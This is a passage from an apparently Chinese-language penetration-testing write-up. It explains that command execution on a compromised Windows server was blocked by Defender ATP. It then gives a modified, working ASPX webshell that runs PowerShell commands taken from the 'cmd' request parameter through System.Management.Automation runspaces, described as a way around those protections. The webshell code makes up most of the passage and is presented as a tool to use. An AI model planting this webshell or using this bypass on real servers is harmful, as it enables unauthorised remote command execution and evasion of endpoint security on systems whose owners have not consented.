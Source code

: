 更换多个shell后发现列目录等文件操作没问题  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PLeCXQl8794MAKtoeuG5HUkZdibEKFibagSiaichFNHD1xCbXxvcCibFoNj92bGAkoyakFbYqoiauXc84zibPDdo5R0XA/640?wx_fmt=png "")  
  
但执行命令就会被拒绝，查看目录可以发现存在较新的windows definder atp，使用https://github.com/ThePacketBender/webshells/blob/master/POWERshell.aspx可以通过调用c# powershell相关的dll绕过definder部分限制。在这个漏洞利用的情境下使用控件表单的webshell非常麻烦，稍微修改一下webshell：  
```
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Collections.ObjectModel"%>
<%@ Import Namespace="System.Management.Automation"%>
<%@ Import Namespace="System.Management.Automation.Runspaces"%>
<%@ Assembly Name="System.Management.Automation,Version=1.0.0.0,Culture=neutral,PublicKeyToken=31BF3856AD364E35"%>
 
<!DOCTYPE html>
 
<script Language="c#" runat="server">
 
    private static string powershelled(string scriptText)
    {
        try
        {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
 
            Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(scriptText);
            pipeline.Commands.Add("Out-String");
 
            Collection<PSObject> results = pipeline.Invoke();
            runspace.Close();
            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
                stringBuilder.AppendLine(obj.ToString());
 
            return stringBuilder.ToString();
        }catch(Exception exception)
        {
            return string.Format("Error: {0}", exception.Message);
        }
    }
    
    protected void Page_Load(object sender, EventArgs e)
    {
       Response.Write(powershelled(Request.Params["cmd"]));
    }
</script>


```  
  
